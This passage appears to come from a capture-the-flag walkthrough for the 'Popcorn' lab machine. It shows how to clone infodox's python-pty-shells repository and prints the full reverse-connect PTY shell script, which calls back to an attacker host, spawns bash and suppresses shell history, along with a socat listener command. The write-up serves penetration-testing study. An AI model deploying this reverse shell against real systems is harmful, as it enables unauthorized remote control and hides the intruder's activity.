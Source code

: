 
now what next is to use `python` to generate a full shell that gives as more interactivity 

let clone this `https://github.com/infodox/python-pty-shells.git` so as to use it to execute an advance sript to get the shell

```sh
git clone https://github.com/infodox/python-pty-shells.git
```

now we need to use the `tcp-pty-backconnect.py`

![](/Linux/Linux-Medium/Popcorn/Screenshots/tcpbackconnect.png)

This is how the code looks like 

```sh
#!/usr/bin/python2
"""
Reverse Connect TCP PTY Shell - v1.0
infodox - insecurety.net (2013)

Gives a reverse connect PTY over TCP.

For an excellent listener use the following socat command:
socat file:`tty`,echo=0,raw tcp4-listen:PORT

Or use the included tcp_pty_shell_handler.py
"""
import os
import pty
import socket

lhost = "127.0.0.1" # XXX: CHANGEME
lport = 31337 # XXX: CHANGEME

def main():
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((lhost, lport))
    os.dup2(s.fileno(),0)
    os.dup2(s.fileno(),1)
    os.dup2(s.fileno(),2)
    os.putenv("HISTFILE",'/dev/null')
    pty.spawn("/bin/bash")
    s.close()

```

